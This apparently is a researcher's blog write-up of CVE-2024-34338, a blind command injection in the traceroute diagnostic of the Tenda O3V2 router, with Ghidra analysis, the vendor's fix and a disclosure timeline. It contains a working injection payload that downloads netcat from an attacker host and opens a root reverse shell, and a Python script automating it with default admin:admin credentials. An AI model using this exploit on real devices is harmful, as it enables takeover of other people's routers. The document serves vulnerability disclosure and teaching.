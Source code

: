 ```yaml
---
title: CVE-2024-34338 - Blind Command Injection in Traceroute on Tenda O3V2
date: 2024-05-01 13:00:00 +07:00
tags: [research, hardware]
---
```


Some time ago I had time to research router, the router I used for this research was a router that I hadn't used for a long time, namely Tenda O3V2. I used to use this router to connect to wifi over long distances (we call it "nembak wifi"). This Tenda O3 router actually has several versions, there are first version, second version, and third version, in this research I use the second version. The appearance of the Tenda O3V2 as shown below

![O3V2](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/O3.png)

In this research I found a blind command injection vulnerability in the traceroute feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. So, Tenda O3V2 have diagnostic tool which includes traceroute but the ip address or domain input is not validated properly and allows the user to perform blind command injection. To perform blind command injection, the attacker needs admin access on the dashboard, but TendaO3V2 have default credential which is admin:admin, so if the user does not change the password then we can perform out blind command injection, and if the user has change password we still can bruteforce it until we got access in dashboard.

We need to retrieve the httpd binary from the router for static analysis to identify vulnerability within it. There are two methods that can be used: first, by extracting the firmware (download from the official website, the vulnerable firmware version is v1.0.0.12 and v1.0.0.10), and second, by directly accessing it from the live or active router. When using the first method to extract the firmware, no filesystem is found in the firmware, i dont know why, possibly due to encryption, obfuscation, packing in the firmware or something else (my skill issue :( ). Then, when attempting the second method via UART, I failed to solder onto its three pins (RX, TX, and GND) resulting in burnt pin and the pin slightly peeled off (once again, my skill issue). There is telnet on the router, we can use it, I enabled telnet through the dashboard (by default, telnet is disabled, and telnet credentials can be found on the internet) to gain shell access with root privileges. After obtaining shell access with root privileges, we can retrieve the httpd binary.

### Vulnerability Analysis

Open router’s httpd binary with Ghidra. In the fromTraceroutGet function, there is a call to the FUN_004758f4 function, which contains a function for executing the traceroute command. Within the FUN_004758f4 function, there is the doSystemCmd function (used to perform traceroute), and this function requires user input. It is evident in the uVar5 variable in the fromTraceroutGet function that there is no sanitization; this variable will later be passed to the doSystemCmd function, potentially leading to command injection.

![fromtraceroutget Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fromtraceroutget.png)

![fun_004758f4 Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fun_004758f4.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/pythonhttpserver.png)

Visit 192.168.2.1 then go to diagnose, select traceroute, and enter the IP.

![Diagnose](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/diagnose.png)

Intercept request when submit using burpsuite. In the getTraceroute endpoint, our IP is included in the destination parameter.

![Intercept Request](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/interceptrequest.png)

Change the value of the dest parameter to the command we want, for example performing a reverse shell<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file.

![Download nc MIPS](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/gotrootshell.png)

We can create a script to automate the process.


```python
import requests

username = "admin"
password = "YWRtaW4="
urllogin = "http://192.168.2.1/login/Auth"
logindata = {
    'username': username,
    'password': password,
    'timeZone': '12',
    'time': '2024;3;29;12;35;22'
}
command = "%3bwget+192.168.2.158:8000/netcat+-O+/tmp/netcat%26%26chmod+%2bx+/tmp/netcat%26%26./tmp/netcat+192.168.2.158+1337+-e+/bin/sh"

with requests.Session() as session:
        print("[Attempt Login]")
        session.post(urllogin, data=logindata)
        req = session.get(f"http://192.168.2.1/goform/getTraceroute?dest=1.1.1.1{command}&hop=1&_=1713166068405")
        print("[Got shell, Check your listener]")
```

### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(5755). In this firmware version, the vulnerability has been fixed by implementing sanitization. Before entering the doSystemCmd function, user input will go through the is_valid_ip_or_domain function. If the input consists of numbers, it will return 1, then proceed to the doSystemCmd function, and the traceroute command will be executed.

![Sanitization](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/sanitization.png)

![is_valid_ip_or_domain Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/is_valid_ip_or_domain.png)


They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
25 March 2024: Vulnerability discovered and the initial contact inquired about Security Vulnerability Reporting to the vendor via email.<br>
28 March 2024: Vendor replied to directly contact to their email.<br>
29 March 2024: Sent them the details of the vulnerability discovered.<br>
30 March 2024: Vendor triage the vulnerability.<br>
22 April 2024: Vendor release new firmware version 1.0.0.13(5755).<br>
25 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.<br>
7 May 2024: CVE ID assigned